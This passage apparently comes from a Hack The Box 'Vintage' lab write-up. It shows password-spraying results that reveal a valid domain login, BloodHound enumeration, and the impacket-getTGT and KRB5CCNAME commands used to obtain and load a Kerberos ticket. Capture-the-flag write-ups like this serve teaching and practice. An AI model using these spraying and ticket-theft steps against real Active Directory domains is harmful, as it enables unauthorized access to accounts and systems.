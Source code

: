 ```bash
2024/12/04 09:36:17 >  [!] svc_ark@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] L.Bianchi_adm@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] svc_ldap@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] C.Neri_adm@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [+] VALID LOGIN:  C.Neri@vintage.htb:Zer0the0ne
2024/12/04 09:36:17 >  Done! Tested 17 logins (1 successes) in 0.481 seconds
```

The account C.Neri@vintage.htb has successfully logged in with the password Zer0the0ne. Let's take a look at his privileges with **BloodHound**

![Texto alternativo](/assets/vintage/Screenshot%202025-03-07%20132847.jpg)

We see that it belongs to the group `SERVICEMANAGERS@VINTAGE.HTB` so we are going to get the credentials for this account, we run the following

```bash
impacket-getTGT vintage.htb/c.neri:Zer0the0ne -dc-ip vintage.htb
```

```bash
❯ impacket-getTGT vintage.htb/c.neri:Zer0the0ne -dc-ip vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in c.neri.ccache
```

And we export the kerberos ticket
```bash
export KRB5CCNAME=c.neri.ccache
```
